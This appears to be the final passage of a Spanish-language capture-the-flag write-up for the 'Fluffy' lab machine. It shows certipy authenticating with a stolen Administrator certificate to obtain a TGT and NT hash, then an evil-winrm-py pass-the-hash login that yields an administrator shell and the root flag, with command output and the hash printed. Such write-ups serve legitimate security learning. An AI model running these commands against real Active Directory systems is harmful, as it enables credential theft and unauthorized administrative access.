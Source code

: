 Usaremos el certificado para autenticarnos como el usuario `Administrator` y así poder obtener su hash NT y credenciales en caché

> Cuando realices la autenticación, recuerda sincronizar tu reloj con el DC, puedes ejecutar el comando `ntpdate DC01.fluffy.htb`
{: .notice--danger}

~~~ bash
ntpdate DC01.fluffy.htb

certipy auth -pfx administrator.pfx -dc-ip 10.10.11.69 -username administrator -domain fluffy.htb
                             
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
~~~


## Root Time

Con el hash NT del usuario `Administrator`, ya podremos conectarnos a la máquina haciendo PassTheHash

~~~ bash
evil-winrm-py -i 10.10.11.69 -u Administrator -H 8da83a3fa618b6e3a00e93f676c92a6e

        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to 10.10.11.69:5985 as Administrator

evil-winrm-py PS C:\Users\Administrator\Documents> whoami
fluffy\administrator
~~~

Ya podremos ver la flag del sistema ubicada en el escritorio

~~~ bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt 
fed...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Wishes can be your best avenue of getting what you want when you turn wishes into action. Action moves your wish to the forefront from thought to reality.
> — Byron Pulsifer
{: .notice--info}
